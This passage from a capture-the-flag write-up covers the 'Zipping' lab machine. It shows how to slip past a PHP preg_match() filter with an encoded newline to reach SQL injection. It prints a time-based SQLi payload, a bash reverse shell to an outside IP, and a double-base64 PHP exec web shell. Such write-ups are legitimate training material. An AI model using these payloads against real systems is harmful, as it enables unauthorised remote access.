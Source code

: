 But we need more information to continue our exploitation. Fortunately for us, the code below has a function that can be bypass: `preg_match()`  
To bypass this check you could send the value with new-lines urlencoded (`%0A`). Which will lead to an SQLi because of the SQL statement that is not protected at all after the `preg_match()`.

```php
# shop/product.php
[snip]

if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
} else {
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
    
[snip]
```

Now let's look at the second functionality of the website, the adding of a product to the cart.

By looking through burp while doing the request on the website, we can see the following:
![](../images/machine/zipping/burp1.png)

It turns out that the `product_id` is vulnerable to a SQLi.  
With combining a SQLi and the `preg_match()` bypass we saw earlier, we might be able to write a reverse shell on the machine.

```sh
# test trigger SQLi
1%0a'%3bselect+sleep(5)%3b--1
```
```sh
# step 1
# write a revshell
bash -c 'bash -i >& /dev/tcp/10.10.16.48/4444 0>&1'
```
```sh
# step 2
# base64 encode it twice to avoid + 
WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4=
```
```sh
# step 3
# write the php revshell
<?php exec("echo WW1GemFDQXRZeUFuWW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME9DODBORFEwSURBK0pqRW4= | base64 -d | base64 -d | bash"); ?>
```